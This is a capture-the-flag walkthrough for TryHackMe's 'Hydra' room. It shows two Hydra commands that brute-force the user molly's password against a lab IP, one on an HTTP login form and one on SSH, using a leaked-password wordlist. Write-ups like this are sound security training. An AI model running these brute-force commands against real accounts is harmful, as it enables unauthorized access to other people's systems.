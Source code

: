 # Hydra&#x20;

**Room Link:** [https://tryhackme.com/room/hydra](https://tryhackme.com/room/hydra)

## **Walkthrough**

**Use Hydra to brute force molly's web password. What is flag 1?**

Opened up the webconsole and tried entering the credentials to see what the request would look like. We can see the failed login attempt message and the fields used for login which we can used to craft our hydra command.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

```
hydra -l molly -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt 10.10.132.200 http-post-form "/login/:username=^USER^&password=^PASS^:F=incorrect" -V
```

**Use Hydra to bruteforce molly's SSH password. What is flag 2?**

```
hydra -l molly -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt 10.10.132.200 -t 4 ssh -V
```
